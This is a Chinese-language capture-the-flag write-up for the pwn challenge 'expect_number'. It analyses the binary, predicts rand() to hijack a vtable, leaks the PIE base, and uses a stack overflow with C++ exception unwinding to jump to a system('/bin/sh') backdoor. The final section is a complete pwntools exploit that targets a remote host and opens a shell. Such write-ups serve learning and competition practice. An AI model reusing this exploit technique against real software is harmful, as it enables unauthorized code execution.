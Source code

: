 # expect_number

## 文件属性

|属性  |值    |
|------|------|
|Arch  |amd64 |
|RELRO |Full  |
|Canary|off   |
|NX    |on    |
|PIE   |on    |
|strip |yes   |

## 解题思路

C++写的，程序的主要功能是猜数字，有个全局的结构体，在猜数字的时候使用：

```c
struct counter {
    void (**vtable)(void);
    int cnt;
    byte guess[288];
};
```

具体看到猜数字的过程，首先会用`rand`决定操作符，再由输入的数字(0/1/2)
来决定被操作数，操作数从`guess + cnt`取出，并计算后存入`guess + cnt + 1`，
原来的地方存入输入的数字的码位。程序检查要求操作数不能小于0或大于0x100。

首先预测每次猜数的运算符，并推测想要保持操作数不变所输入的数字：

```c predict.c
// gcc predict.c -g && ./a.out
#include <stdio.h>
#include <stdlib.h>

char buf[64];

static void printbuf(char ch) {
    static int idx = 0;
    if (!ch) {
        buf[idx] = '\0';
        idx = 60; // avoid mess up
    }
    buf[idx++] = ch;
    if (idx >= 50) {
        puts(buf);
        idx = 0;
    }
}

int main(void) {
    srand(1);
    const char *table = "+-*/";
    for (int i = 0; i < 276; i++)
        printbuf(table[rand() % 4]);
    printbuf(0);
    srand(1);
    for (int i = 0; i < 276; i++)
        printbuf(rand() % 4 <= 1 ? '0' : '1');
    printbuf(0);
    return 0;
}
```

于是我们得到了：


```plaintext result
/*-/-/*+--*/*//*+*++/+/-***///-***-/-+/*---/+-*+/*
-*/++-**+---+/+-*---+/*-*/*+/*/++*++//*/++++/+***/
/***/--*-+++-+*---+/+-/--/-/-//+--*-*//++/+-//*++/
+-+/*-*/-//+++-*-+*++*/+///-/++/-+//*-*/--/-*+//+-
++//-**++*++---++/*/*/+-+*-/**-**+-//++/*+//*++*/*
---**-+++**-++**+-*++++//*
11010110001111110100101011111101110100110001001011
01100011000001001000011011101110010011110000101111
11111001000000100001001001010110001011100100111001
00011011011000010010011011101001001110110010101100
00110110010000000111110001011101100110011011100111
00011000011000110010000111
```

看到程序里有`submit`，可以`system("cat gift")`，我直接试了一下，结果远程没有这个文件...

再次检查程序，在全局`counter`之后288字节处存在另一个结构体的虚表，但是，它才对应
`guess`的276字节处。它决定了程序退出时的行为，并且可以在猜数时轻松修改。
程序启动时，这个虚表被绑定到`0x4c48 <- goodbye`，这个函数没有任何漏洞；
但是如果将其绑定到`0x4c60 <- favorite`，由于程序没有canary，因此可以利用其中的
**栈溢出** ，修改rbp和返回地址，触发异常Unwind。检查`system`的交叉引用，
在0x2547的位置存在`system("/bin/sh")`，并且catch块的对象类型和throw的刚好一致，
因此我们可以设置返回地址为catch块地址+1，就可以跳转到后门。

有了以上思考，我们可以先覆盖虚表到`&favorite`，然后`show`借助虚表泄露pieBase，
并计算我们的返回地址，以及rbp为bss，最后执行`favorite`栈溢出跳转到后门拿shell。

## EXPLOIT

```python
from pwn import *
from rich.progress import track
context.terminal = ['tmux','splitw','-h']
GOLD_TEXT = lambda x: f'\x1b[33m{x}\x1b[0m'
EXE = './expect_number'

def payload(lo: int):
    global sh
    if lo:
        sh = process(EXE)
        if lo & 2:
            gdb.attach(sh)
    else:
        sh = remote('47.94.231.2', 30773)
    elf = ELF(EXE)

    # use this payload to get gift
    # string = '1101011200212111220010102211110111010112'
    # gift not found on target

    # overflow 1 byte '\x60' on vtable
    string = '1101011000111111010010101111110111010011000100101101' \
             '1000110000010010000110111011100100111100001011111111' \
             '1001000000100001001001010110001011100100111001000110' \
             '1101100001001001101110100100111011001010110000110110' \
             '0100000001111100010111011001100110111001110001101112' \
             '2000220020000111'
    for num in track(string, description='sending 0/1/2 ing...'):
        sh.sendlineafter(b'waiting', b'1')
        sh.sendlineafter(b'choose', num.encode())

    # use show to leak pieBase (vtable of goodbye before, vtable of favorite now)
    sh.sendlineafter(b'waiting', b'2')
    sh.recvuntil(b'\x60')
    pieBase = u64(b'\x60' + sh.recv(5) + b'\0\0') - 0x4c60
    success(GOLD_TEXT(f"Leak pieBase: {pieBase:#x}"))

    sh.sendlineafter(b'waiting', b'4')
    bss = pieBase + 0x5800
    backdoor = pieBase + 0x2516
    # cover rbp with a writable address and retaddr with getnum+52+1
    # triggering throw and unwind to backdoor
    sh.sendafter(b'favorite', b'0' * 0x20 + p64(bss) + p64(backdoor))

    sh.clean()
    sh.interactive()

```

![flag](assets/expect_number.png)

## 参考

[溢出漏洞在异常处理中的攻击利用手法-上](https://xz.aliyun.com/t/12967)
